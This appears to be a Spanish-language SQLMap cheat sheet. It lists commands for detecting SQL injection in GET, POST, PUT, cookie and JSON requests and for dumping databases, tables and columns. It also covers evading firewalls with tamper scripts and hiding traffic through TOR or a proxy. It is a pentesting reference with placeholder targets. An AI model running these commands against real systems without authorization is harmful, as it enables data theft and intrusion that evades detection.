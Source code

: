 # Comandos básicos de la herramienta SQLMap
<p align="center">
  <img src="https://i.postimg.cc/7LMcjndm/SQLmap.png" alt="sql"/>
</p>

- Notas: 
	1. Si se utiliza `-r` con `sqlmap` para leer un a solicitud HTTP desde un archivo, no es necesario utilizar la opción `-u`.
	2. Cuando se tenga una solicitud HTTP completa en un `file.txt` y quiera replicarse exactamente como fue capturada se utiliza `-r`.
	   En caso de querer especificar los datos de la solicitud en la línea de comandos se utilizaría `--data="user=user&pass=pass"`.
	3. Se puede alojar un script personalizado en el parámetro `--tamper`.

| COMANDOS     | DESCRIPCIÓN                                                                                                             |
| ------------ | ----------------------------------------------------------------------------------------------------------------------- |
| **-u**       | Especifica el objetivo (`-u example.com`)                                                                               |
| **-r**       | Especifica el objetivo desde un .txt con la cabecera (`-r request.txt`)                                                 |
| **--data**   | Realiza pruebas de `SQLi` en parámetros específicos para determinar si son vulnerables(`--data="user=user&pass=pass"`). |
| **-p**       | Realiza una prueba en un parámetro en específico (`-p user`).                                                           |
| **--tamper** | Evade detección de firewall (`--tamper space2comment`)                                                                  |

### Base de datos
- Devuelve todas las bases de datos
```bash
sqlmap -r /home/kali/sqli.txt -v 3 -p parametro_vuln --dbs --tamper=space2comment
```
```bash
#Cookie
sqlmap -u "http://example.com/index.php" -v 3 --cookie "id=*" --dbs --tamper=space2comment
#JSON

```
### Tabla
- Devuelve las tablas de una DB específica
```bash
sqlmap -r /home/kali/sqli.txt -v 3 -p parametro_vuln -D DB_name --tables
```
### Columnas
- Devuelve las columnas de una DB y tabla específica
```bash
sqlmap -r /home/kali/sqli.txt -v 3 -p parametro_vuln -D DB_name -T Table_name --columns
```
#### Datos
- Devuelve los DATOS de una columna específica
```bash
sqlmap -r /home/kali/sqli.txt -v 3 -p parametro_vuln -D DB_name -T Table_name  --dump -C name,name,name
```
---
# Métodos HTTP: GET vs POST

| **GET**                                                                                       | **POST**                                                                        |
| --------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------- |
| Solicita los datos de un servidor.                                                            | Envia datos al servidor, a menudo datos de un formulario.                       |
| Datos enviados en la **URL** de la solicitud.                                                 | Datos se envían en el **cuerpo** de la solicitud **HTTP**.                      |
| Parámetros visibles en la **URL** del navegador.                                              | Parámetros **no** visibles en la **URL**  del navegador.                        |
| Solicitud limitada por la longitud máxima de la **URL.** Varía según el navegador y servidor. | No hay limitación de tamaño en los datos enviados en el cuerpo de la solicitud. |


**EJEMPLO GET:** `http://www.example.com/index.php?username=user&password=pass123`

**EJEMPLO POST:** 
```http
POST /login HTTP/1.1
Host: www.example.com
Content-Type: application/x-www-form-urlencoded

username=user&password=pass123
```
## GET Request con SQLMap:

- Se analiza **user=admin** y **pass=admin** en la **URL** para detectar posibles inyecciones **SQL**.
```bash
sqlmap -u http://www.example.com/login.php?user=admin&pass=admin
```
## POST Request con SQLMap:

- Se analiza  **user=admin** y **pass=admin** en el **cuerpo** de la solicitud para detectar posible SQLi.
```bash
sqlmap -u http://www.example.com/login.php --data='user=admin&pass=admin'
```
## PUT Request con SQLMap:

- PUT, envía datos al servidor para crear o actualizar un recurso en el servidor.
- Se permite verificar si la aplicación web es susceptible a `SQLi` con un método diferente a los que son `POST` y `GET`.
```bash
sqlmap -u www.example.com --data='id=1' --method PUT
```
## Solicitud HTTP con SQLMap

- Se puede guardar la cabecera desde BurpSuite en un **.txt** y luego alojarla en la herramienta de SQLMap junto el comando **-r**.
1. Lanzar la petición.
2. Capturar la trama.
3. Copiar la cabecera.
4. Pegarla en un archivo .txt
5. Ingresar la ruta del archivo .txt en la herramienta SQLMap. `-r /../../rq.txt`
```bash
sqlmap -r request.txt /rq.txt
```
## Cookies con SQLMap

- Especificar el valor de la cookie con SQLMap.
```bash
sqlmap ... --cookie='PHPSESSID=..'
```
- Otro ejemplo es utilizar en vez de `--cookie` los comandos `-H/--header`
```bash
sqlmap ... -H='Cookie:PHPSESSID=..'
```
- Comando básico:
```bash
sqlmap -u http://example.com/index.php --cookie="id=*" --dbs --batch
```
## JSON con SQLMap

- Capturar la trama, agregar el **JSON** y por último cambiar el método **GET** por **POST**.
- Copiar la trama con las modificaciones realizadas y pegarlas en un archivo **.txt**
<p align="center">
  <img src="https://i.postimg.cc/R0wQGV31/sqli-txt.png" alt="sqli"/>
</p>

```bash
sqlmap -r request.txt --batch --dbs
# Por último seguir el paso a paso del principio para revisar tablas, columnas y datos.
```
---
## Almacenar la salida
- **BurpSuite**:
<p align="center">
  <img src="https://i.postimg.cc/KvnMdscF/sqli-txt.png" alt="sqli"/>
</p>

- **SQLMap:**

```bash
sqlmap -u http://example.com?id=1 --batch -t /tmp/request.txt
cat /tmp/request.txt
```

---
# "Anonimato"

## Usar TOR con SQLMap
```bash
sqlmap -u 'http://www.example.com' --tor --tor-type=SOCK5 --time-sec 11 --check-tor --level=5 --risk=3 --threads=5
```
## Usar un PROXY con SQLMap
```bash
sqlmap -u 'http://www.example.com' --proxy='https://127.0.0.1:8080'
```
